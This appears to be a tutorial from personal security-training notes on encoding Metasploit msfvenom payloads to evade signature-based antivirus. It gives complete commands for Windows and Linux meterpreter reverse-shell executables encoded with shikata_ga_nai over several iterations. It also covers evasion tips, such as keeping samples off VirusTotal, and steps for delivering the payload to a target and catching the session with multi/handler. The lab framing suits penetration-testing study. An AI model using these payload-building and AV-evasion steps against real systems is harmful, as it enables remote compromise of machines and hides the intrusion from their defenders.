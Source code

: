# Encoding Payloads with Msfvenom

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be cognisant of AV detection.

**Note**: Consider that when exploiting a vulnerability on a server, the payload won't actually touch the disk, as the payload will be executed in memory and regular AVs won't detect it. That's not the case with client side attacks, and that's why encoding the payload becomes important.

+ Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.

+ We can evade older signature based AV solutions by encoding our payloads.

+ Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

**Note**: This attack vector is really not used anymore, as the new AV solutions have huge signature databases and better detection techniques. This could be useful for older and rudimentary AV solutions like Windows Defender in Windows 7 and in some cases in new AV, but it is not the method utilized in regards to client side attacks because of the limitations of encoding.

## Shellcode

+ Shellcode (shell-code) is a piece of code typically used as a payload for exploitation.

+ It gets its name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## Laboratory

For this technical demonstration we won't need a lab environment. We can follow along using a simple kali virtual machine.

- Let's start by running `msfvenom --list encoders` to list all encoders.

**Note**: The best option is usually the shikata_ga_nai encoder. Its score is Excellent. For powershell, cmd/powershell_base64 could be an excellent option as well.

- Now we will run an example and add the -e option to specify the encoder: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/path/to/encoded/payload.exe`. Note that `windows/meterpreter/reverse_tcp` payload targets x86, and the encoder should also match the x86 arch. After the creation of the payload is completed, note the number of iterations. That's the nomber of times the payload was encoded and it is rather important.

**Note**: The more interations with shikata_ga_nai you have, the best chances you have of bypassing AVs.

- If we want to increase the number of iterations, we can do it by adding the -i option: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/path/to/encoded/payload.exe`. Note the -i after LPORT option.

**Note**: Anything after 10 interations will not really improve your chances of bypassing an AV.

- Now let's try encode a payload for linux. The process is really similar: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/path/to/encoded/payload`. Note the name of the payload changed but the name of the encoder is the same.

### Transfering Payload to the target

- To transfer the malicious payloads to the target machine, in this case we will start with windows. We need to have a windows 7 machine in the same network as our kali machine. We are going to setup a simple http web server and try to download the payloads to the windows machine from a web browser. Once we setup the web server, we are going to set up the listener using the msfconsole module `multihandler`. We only need to run `use multi/handler` inside the msfconsole and change the payload to the payload we crafted using msfvenom. And we also need to configure the LHOST and LPORT we configured in the payload with msfvenom.

**Note**: When using meterpreter payloads, we need to use the multihandler module to properly handle the connection. Simpler handlers like netcat could not work properly.

- From the windows target machine, enter the browser and download the payloads. Execute them and then you should see something happening on your kali machine, it should open a meterpreter session on the multihandler.

- For linux, we can do exactly the same, or even execute it from kali to test it out. It will connect to the multihandler and establish the meterpreter session.

**Note**: It is not recommended to test these payloads in virustotal, becuase the signature will be sent to AV companies. The best option is to test it out in a sandbox environment.
